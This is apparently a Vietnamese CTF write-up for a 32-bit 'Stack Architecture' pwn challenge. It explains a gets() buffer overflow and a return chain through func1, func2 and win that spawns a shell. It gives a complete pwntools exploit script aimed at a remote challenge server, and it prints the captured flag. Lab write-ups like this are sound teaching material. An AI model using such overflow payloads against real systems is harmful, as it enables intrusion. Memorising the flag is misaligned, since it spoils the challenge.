 # **Stack Architecture - PWN CTF Challenge**

### ***Exploitation***
---

Đầu tiên ta kiểm tra được đây là file ELF 32-bit, và chỉ bật cờ `NX` &rarr; Ta không thể chèn shellcode nhưng có thể buffer overflow. Chạy thử chương trình không có gì đặc biệt khi nó cho nhập input xong rồi thoát.

![checkfile](images/checkfile.png)

Kiểm tra hàm main bằng IDA, có thể thấy hàm `gets(s)` đã gây ra lỗi buffer overflow. Mảng kí tự `s` nhập vào được khai báo 80 kí tự nằm ở vị trí `ebp - 0x54`.

![main](images/main.png)

Chương trình này khá đơn giản nên mình có thể xác định được số bytes cần input để chèn return address là 80 bytes (buffer `s`) + 4 bytes (`ebp`) + 4 bytes (`return address`). 

Đọc hàm `win` thì để gọi được shell bằng `system(command)` với `command= *]di*nc + 5 = /bin/sh` thì 3 biến `check2 == check3  == check4 == 1`. Như vậy chúng ta không thể return ngay về hàm win mà phải đi tìm các hàm làm thay đổi giá trị `check2`, `check3` và `check4`.

![win](images/win.png)

Đầu tiên là hàm `func1(int)`, tại đây xuất hiện biến `check2` và `check3`. Mảng kí tự s1[80] bằng `I\'m sorry, don\'t leave me, I want you here with me ~~` thì `check2=1`. Và để `check3=1` thì cần gọi `func1(int)` 2 lần với tham số đầu vào `int a1` phải bằng `0x20010508` (do phải set `check2=1` trước).  

![func1](images/func1.png)

Ở hàm `func2()`, để `check4=1` thì cần `check3==1` và có biến local `v1` nằm ở `ebp-0x4` trong stack frame bằng `0x8052001`. 

![func2](images/func2.png)

Như vậy sau khi gọi hàm `func1()` 2 lần và `func2()` ta sẽ thỏa mãn điều kiện ở hàm `win()` và gọi được shell. Vấn đề bây giờ là xây dựng stack để chèn được các tham số cũng như biến local thỏa những điều kiện trên.

Vì hàm `func1()` sẽ được gọi sau hàm `main()` nên `ebp(func1) = ebp + 0x4` &rarr; `s1 = I\'m sorry, don\'t leave me, I want you here with me ~~` sẽ nằm tại `ebp(func1) - 0x54 = ebp - 0x50`. Hơn nữa ở đây người ta dùng `strcmp()` để so sánh nên cần thêm một kí tự `\x00` vào chuỗi `s1`.

Tại `ebp+0x4` và `ebp+0x8` sẽ là địa chỉ của `func1()` (gọi 2 lần). Tại `ebp+0xc` (chính là arg cho func1() lần 1) sẽ là `pop; ret` để tránh nó return về arg &rarr; lỗi chương trình. Ở đây ta sẽ dùng `pop ebp; ret`. Tại `ebp + 0x10` (chính là arg cho func1() lần 2) sẽ là `0x20010508`.

Tiếp theo ta sẽ phải gọi 2 lần `func2()` vì với hàm `func2() lần 1` nếu lấy `v1` ở `ebp - 0x4` lúc đó sẽ trùng với arg của `func1() lần 2`. Mặt khác giá trị tại `ebp` luôn giữ nguyên sau lệnh `ret` nên sau khi qua `func2() lần 1`, `v1` ở `ebp - 0x4` lúc này sẽ là `ebp gốc` (ebp của hàm `main` ban đầu) &rarr; gán `ebp gốc` bằng `0x08052001`. Việc đơn giản còn lại là chèn địa chỉ của hàm `win` tại vị trí tiếp theo.

Ta có stack như sau:

![stack](images/stack.png)

Từ đó thực hiện đi tìm các address cần thiết cho mã khai thác.

![address](images/address.png)

![pop2](images/pop2.jpg)

Cuối cùng ta có đoạn mã sau tại [stack.py](stack.py)

```js
from pwn import *

r = remote('45.122.249.68', 10018)

func1 = 0x804929e
func1_argv = 0x20010508

func2 = 0x80492fe
func2_var = 0x08052001

win = 0x8049216
pop_ret = 0x08049022


payload = b'a'*4 + b'I\'m sorry, don\'t leave me, I want you here with me ~~' + b'\x00' + b'a'*26
payload += p32(func2_var)
payload += p32(func1)*2
payload += p32(pop_ret)
payload += p32(func1_argv)
payload += p32(func2)*2
payload += p32(win)

r.sendline(payload)
r.interactive()
```
Thực thi và ta đã có flag!!!!!!!!!!!!!!

![flag](images/flag.png)

> **FLAG: Wanna.One{neu_ban_chinh_phuc_duoc_chinh_minh_ban_co_the_chinh_phuc_duoc_the_gioi}**






